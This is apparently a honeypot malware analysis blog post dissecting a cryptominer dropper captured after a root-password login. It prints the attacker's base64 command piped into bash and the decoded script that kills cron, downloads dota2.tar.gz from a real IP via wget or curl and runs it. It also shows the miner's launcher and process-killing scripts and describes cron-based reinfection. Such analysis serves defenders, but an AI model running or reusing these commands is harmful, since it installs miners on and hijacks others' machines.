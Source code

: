 ### What the cat brought home

I was looking at my honey pot this morning and I saw a what looked like base64 strings. A lot of time attackers like base64 because it makes it easy for them to bypass detection or even becuase it can ensure that
the string is still the same when ran. The attacker used the login, root/jinsheng to gain access to the honey pot. The Ip address used was: ```54.37.136.183```
In figure 1, we can see the actually command that the attacker used. 
```ruby 
cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
Figure 1: the command used to download the malware.
As seen in Figure 1, the attacker first changed the directory to ```/var/tmp````. After changing the directory the base64 encoded string is decoded and than run. In Figure 2, we can see the
decoded base64 string.

```ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
Figure 2: the decoded base64 string
As seen in figure 2, the base64 removes the directory ```.X15-unix``` and then creates a new directory named the same thing.
After it creates a new directory the script changes to the newly created directory and also kills the cron process.
Next the the attacker downloads a .tar.gz file from ```http://54.37.70.249/dota2.tar.gz```. 
The script will than change directories to the .rsync and give the all the files in the dirctories permissions, after that it will run the
files ```a``` and ```cron```.


### A Look into the files dropped

In Figure 3, we can see that there is a bunch of folders and files inside the .tz. The attackers used
![Octocat](https://i.imgur.com/jmoC3qM.png=100x20)
Figure 3: the untar-ed contents of ```dota2.tar.gz```

In Figure 4,  we take a peak inside the file at ```a/run``` we can see that its a bash script that job is to check what arch the host machine is using and then runs the correct file. 
```ruby
#!/bin/bash
./stop
sleep 10
pwd > dir.dir
dir=$(cat dir.dir)
ARCH=`uname -m`
	if [ "$ARCH" == "i686" ]; then
		nohup ./anacron >>/dev/null & 
	elif [ "$ARCH" == "x86_64" ];   then
		./cron || ./anacron
	fi
echo $! > bash.pid
```
Figure 4: the contents of ```a/run```

In Figure 3, we can see that the ```a/run``` file runs a file called ```./stop```. In Figure 5, we can see that its job is kill any running proccesss called cron. The stop script also removes the file named ```.proc```.

```ruby#!/bin/sh
pkill -9 cron
killall -9 cron
kill -9 `ps x|grep cron|grep -v grep|awk '{print $1}'`>.proc
rm -rf .proc
```
Figure 5: the contents of ```a/stop```.


The ```a/``` is too big to share the source code. But In Figure 7, I posted the a pastebin.com of the source code. It looks like someone compiled a bash script of other miners IOC's and created a single script removing all the other miners. The code removes all the directories and kills all the processes. 
```ruby 
https://pastebin.com/raw/yxgk4PAi
```
Figure 7: The ```a/init0``` script




In Figure 8, is the cronjob that the miner created to try to stay on the infected machine as long as possible.

![crontab](https://i.imgur.com/8fSONkN.png=100x20)
The cronjob will re-infect the machine on reboot. According to the cronjob it will also reinfect the machine every 3 days.<br> 
It will also run the script ```b/sync``` at the 8:05. <br>
